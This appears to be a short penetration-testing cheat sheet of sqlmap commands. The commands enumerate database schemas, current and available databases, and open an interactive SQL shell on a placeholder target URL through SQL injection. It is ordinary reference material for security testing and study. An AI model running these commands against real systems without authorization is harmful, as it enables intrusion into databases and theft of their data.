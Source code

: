 # 03 - Databases

Search Tag(s): #sqlmap #enumeration-and-discovery

## 3.1 - Automated

- Enumerate database schema.

```
$ sqlmap -u "<URL>" --random-agent --schema
```

- Enumerate database schema yet exclude system databases.

```
$ sqlmap -u "<URL>" --random-agent --schema --exclude-sysdbs
```

- Enumerate current database.

```
$ sqlmap -u "<URL>" --random-agent --current-db
```

- Enumerate available databases.

```
$ sqlmap -u "<URL>" --random-agent --dbs
```

## 3.2 - Manual

```
$ sqlmap -u "<URL>" --random-agent --sql-shell

sql-shell> SHOW DATABASES()
```